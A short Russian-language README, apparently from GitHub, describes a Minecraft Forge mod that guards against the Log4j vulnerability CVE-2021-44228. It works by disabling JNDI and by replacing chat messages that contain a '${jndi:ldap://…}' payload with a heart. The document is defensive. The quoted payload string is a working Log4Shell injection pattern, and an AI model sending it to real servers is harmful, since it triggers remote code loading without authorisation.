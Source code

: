 # JndiRemover
Небольшой мод направленный на устранение уязвимости CVE-2021-44228 по средствам удаления/отключения Jndi в Log4j и 
перехват сообщений содержащих текст "${jndi:ldap://domainname.com/script}", которые будут заменены на ❤️.

Поддерживаемые версии MC:
* Forge 1.7.10, 1.12.2
